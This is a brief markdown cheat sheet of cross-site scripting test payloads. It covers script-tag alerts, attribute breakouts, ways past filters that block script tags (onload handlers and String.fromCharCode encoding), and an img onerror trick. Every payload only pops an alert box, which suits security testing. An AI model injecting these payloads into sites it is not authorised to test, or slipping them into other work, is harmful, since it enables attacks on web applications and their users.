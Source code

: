# XSS = Cross-Site-Scripting
Verify XSS:  
```javascript
<script>alert('XSS')</script>

//OR
"><script>alert('XSS')</script>">

//OR
<script>alert(String.fromCharCode(88,83,83))</script>
```

Bypass filter of tag script:   
```javascript
" onload="alert(String.fromCharCode(88,83,83))

//OR
" onload="alert('XSS')
```

**nope** is not a valid image source, so this cause an error an triggers the `onerror`.
```javascript
<img src='nope' onerror=alert("XSS")>
```
